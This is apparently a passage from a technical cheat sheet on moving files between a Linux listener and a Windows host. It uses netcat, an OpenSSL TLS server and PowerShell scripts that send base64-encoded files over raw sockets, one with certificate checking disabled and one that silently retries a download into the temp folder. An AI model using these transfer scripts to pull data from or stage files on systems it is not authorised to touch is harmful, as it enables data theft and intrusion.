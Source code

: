 Start netcat listener on Linux (10.192.103.49).<br />
`nc -nlvp 4444 | fold -w 76 | base64 -d > file.bin`

Send the file from Windows host using powershell.<br />
```powershell
$fdata = [System.Convert]::ToBase64String([io.file]::ReadAllBytes("c:\path\file.bin"));
$socket = New-Object net.sockets.tcpclient('10.192.103.49', 4444);
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$writer.WriteLine($fdata);
$writer.flush();
$socket.close();
```

**Send file over a TLS socket**

Start openssl server on Linux (10.192.103.49).<br />
Generate a certificate and key first.<br />
`openssl req -x509 -newkey rsa:2048 -keyout svrkey.pem -out svrcert.pem -days 365 -nodes`

`openssl s_server -quiet -tls1_2 -cipher HIGH -key svrkey.pem -cert svrcert.pem -accept 443 -naccept 1 | fold -w 76 | base64 -di > file.bin`

Send the file from Windows host using powershell.<br />
```powershell
$fdata = [System.Convert]::ToBase64String([io.file]::ReadAllBytes("c:\path\file.bin"));
$socket = New-Object net.sockets.tcpclient('10.192.103.49', 443);
$stream = $socket.GetStream();
$callback = { param($sender, $cert, $chain, $errors) return $true };
$sslstream = New-Object System.Net.Security.SslStream($stream, $true, $callback);
$sslstream.AuthenticateAsClient("whatever");
$stream = $sslstream;
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$writer.WriteLine($fdata);
$writer.flush();
$writer.close();
$stream.close();
$socket.close();
```

## >> Downloading a file via powershell

Retrieve the file on Windows host using powershell.  Will retry until server responds.<br />
```powershell
$fdata = "";
$fname = $env:temp + "\file.bin";
$ErrorActionPreference = 'SilentlyContinue';
while($true)
{
   $socket = New-Object system.Net.Sockets.TcpClient;
   $socket.Connect('10.192.103.49', '4444');
   if($socket.Connected)
   {
      break;
   }
   Start-Sleep -Seconds 1;
}
$stream = $socket.GetStream();
$reader = new-object System.IO.StreamReader($stream);
$res = $reader.ReadToEnd();
$fdata = "$fdata$res"
$bytes = [Convert]::FromBase64String($fdata)
[IO.File]::WriteAllBytes($fname, $bytes)
$reader.close();
$stream.close();
```